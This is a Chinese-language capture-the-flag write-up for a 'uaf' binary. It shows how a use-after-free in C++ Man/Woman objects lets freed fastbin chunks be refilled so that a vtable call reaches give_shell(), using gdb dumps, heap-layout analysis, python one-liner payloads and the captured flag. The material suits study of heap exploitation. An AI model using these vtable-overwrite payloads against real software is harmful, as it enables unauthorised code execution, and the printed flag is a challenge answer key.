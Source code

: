 ### uaf

科普一个linux命令

`echo -en "\x66\x66\x66\x66" > test (<=="ffff")`

问题在于`Man,Woman`指针一直都在，而指向的内存 **部分可控**，并且有 **call内存** 的行为，考察的是fastbin的申请规则。

free后调用new，即可在原先位置上稍微带点限制地进行任意内容写。

先看一遍最正常的introduce的调用：
```
0x400fcd <main+265>: mov    rax,QWORD PTR [rbp-0x38] <---拿到Man的指针
0x400fd1 <main+269>: mov    rax,QWORD PTR [rax]  <---拿到Man中function所在的内存（可能叫虚表）
=> 0x400fd4 <main+272>: add    rax,0x8    <---拿到Man+8位置的东西（就是introduce()）
0x400fd8 <main+276>: mov    rdx,QWORD PTR [rax]
0x400fdb <main+279>: mov    rax,QWORD PTR [rbp-0x38]
0x400fdf <main+283>: mov    rdi,rax
0x400fe2 <main+286>: call   rdx      <----call Man->introduce()
```


到`0x400fd1`时
```
x $eax
0x204f040: 0x0000000000401570 <---Man虚函数所在的位置
```
更大的范围
```
gdb-peda$ x/20 $eax -0x40
0x1ee7000:      0x0000000000000000      0x0000000000000031
0x1ee7010:      0x0000000000000004      0x0000000000000004 <---Man的变量
0x1ee7020:      0x0000000000000000      0x000000006b63614a <---"Jack"
0x1ee7030:      0x0000000000000000      0x0000000000000021 <---Man的变量 end
0x1ee7040:      0x0000000000401570 <---Man的虚函数表      0x0000000000000019
0x1ee7050:      0x0000000001ee7028      0x0000000000000031
0x1ee7060:      0x0000000000000004      0x0000000000000004 <---Woman的变量
0x1ee7070:      0x0000000000000000      0x000000006c6c694a <---"Jill"
0x1ee7080:      0x0000000000000000      0x0000000000000021 <---Women的变量 end
0x1ee7090:      0x0000000000401550 <--Women的虚函数表     0x0000000000000015
```


到`0x400fd4`时
```
x/20 $rax-16
0x401560 <_ZTV3Man>:    0x0000000000000000      0x00000000004015d0 <--typeinfo
0x401570 <_ZTV3Man+16>: 0x000000000040117a <--give_shell()      0x00000000004012d2 <--introduce()
```

所以思路比较明确了，让Man+8的位置指向get_shell()而不是指向introduce()。

---------

先随便看看我们写入的东西在哪里吧

长度为 `24` 的时候
```
0x788040:       0x0000000000401570      0x0000000000000019
0x788050:       0x0000000000788028      0x0000000000000031
0x788060:       0x0000000000000004      0x0000000000000004
0x788070:       0x0000000000000000      0x000000006c6c694a
0x788080:       0x0000000000000000      0x0000000000000021
0x788090:       0x0000000000401550      0x0000000000000015
0x7880a0:       0x0000000000788078      0x0000000000020f61
0x7880b0:       0x0000000000000000      0x0000000000000000
0x7880c0:       0x0000000000000000      0x0000000000000000
0x7880d0:       0x0000000000000000      0x0000000000000000

0x788040:       0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x788050:       0xaaaaaaaaaaaaaaaa      0x0000000000000031
0x788060:       0x0000000000788000(这个是指向下一个free的fastbin的指针，在这里没啥用)
                0x0000000000000004
0x788070:       0x00000000ffffffff      0x000000006c6c694a
0x788080:       0x0000000000000000      0x0000000000000021
    <---这里数据并没有改变，因为是0x30大小的东西，不会被填进去（文末会有填充规则）
0x788090:       0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x7880a0:       0xaaaaaaaaaaaaaaaa      0x0000000000020f61（这个是指向堆顶的值）
0x7880b0:       0x0000000000000000      0x0000000000000000
0x7880c0:       0x0000000000000000      0x0000000000000000
0x7880d0:       0x0000000000000000      0x0000000000000000
```

所以，我们写入的前8个byte会被认为是get_shell的地址，然后call(addr(get_shell)+8)，将这8个byte改为addr(get_shell)-8就可以实现利用了。

于是我们写入`0x0000000000401568` + `0xaa*8` + `0xaa*8` 即可，当Man->introduce时候就会触发我们构造好的get_shell，之后输入 "3 2 1"，发现并没有成功，下面分析一下失败的原因。

在free过后，有几个可以填充的区域大概如下图
```
+---------+----------+-----------+------------+--------+
|junk 0x30| Man 0x20 | junk 0x30 | Woman 0x20 | so big |
+---------+----------+-----------+------------+--------+
```
经过debug，填充顺序是 Woman > Man > so big，所以我们321的话只写掉了Woman的数据，而call的时候是Man->introduce()再Woman->introduce()，前一句就会炸掉，所以利用不成功，之前还以为是 ~~Man>Woman>so big~~ 。

之后简单地改为 "3 2 2 1"即可拿到2次shell，分别是Man->introduce和Woman->introduce拿到的。当然，根据原理来看322222221也是可以的。

之后，我们来测试一下`junk 0x30`如何被利用，原理上是用 0x21~0x28的数据写的时候会申请0x30的空间，刚好可以覆盖的样子。

```
x/40 $eax - 0x40
0x1c60000:      0x0000000000000000      0x0000000000000031
0x1c60010:      0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x1c60020:      0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x1c60030:      0xaaaaaaaaaaaaaaaa      0x0000000000000021
0x1c60040:      0x0000000000000000      0x0000000000000019
0x1c60050:      0x0000000001c60028      0x0000000000000031
0x1c60060:      0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x1c60070:      0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x1c60080:      0xaaaaaaaaaaaaaaaa      0x0000000000000021
0x1c60090:      0x0000000001c60030      0x0000000000000015
0x1c600a0:      0x0000000001c60078      0x0000000000020f61
0x1c600b0:      0x0000000000000000      0x0000000000000000
0x1c600c0:      0x0000000000000000      0x0000000000000000
0x1c600d0:      0x0000000000000000      0x0000000000000000
0x1c600e0:      0x0000000000000000      0x0000000000000000
0x1c600f0:      0x0000000000000000      0x0000000000000000
0x1c60100:      0x0000000000000000      0x0000000000000000
0x1c60110:      0x0000000000000000      0x0000000000000000
0x1c60120:      0x0000000000000000      0x0000000000000000
0x1c60130:      0x0000000000000000      0x0000000000000000
```

如图，我们覆盖成功了，同样，规则是优先覆盖右面的，然后覆盖左面的junk 0x30。


最后提供3种POC，利用的是 **Man->get_shell,Woman->get_shell,Humen->get_shell**

```
python -c "print '\x48\x15\x40\x00\x00\x00\x00\x00'+'\xaa'*90" > Woman
python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00'+'\xaa'*90" > Man
python -c "print '\x88\x15\x40\x00\x00\x00\x00\x00'+'\xaa'*90" > Homan
./uaf 4~24均可 ./(Woman/Man/Human)均可
```

文末讨论一下 new char[len]是写在什么地方的。

1. fastbin最小的chunk是0x20个byte，其真正数据长度1<=len<=24；即new char[1]~new char[24]本质上是一样的。64位的最小0x20，32位的最小0x18
2. 文中Woman、Man的chunk大小是0x20，故free掉时候多出2个0x20的空间
3. 由于我们申请的是1~24，即0x20，所以会填入Woman和Man，顺序在于Man是先free掉的，Woman后free，故填充时优先填充Woman
4. 多次申请0x18的时候，整个流程为
  1. 看一眼woman，刚好，填充成功；
  2. 看一眼man，刚好，填充成功；
  3. 看一眼man之前的、之前的之前的，到头了，不成功，写入so big
  4. 同3
5. 多次申请0x28的时候，我们是为了填充文中的junk 0x30（虽然没什么卵用），顺序依然是从后到前，表现与4描述的一样
6. fastbin的原则（用来解释目前遇到过的现象）
  1. 单向链表存放
  2. 申请的时候，挨个比较`chunk`的大小，若刚好相同，则填入
  3. 若每个大小都不相同，则在`top`开一块内存


flag
`yay_f1ag_aft3r_pwning`
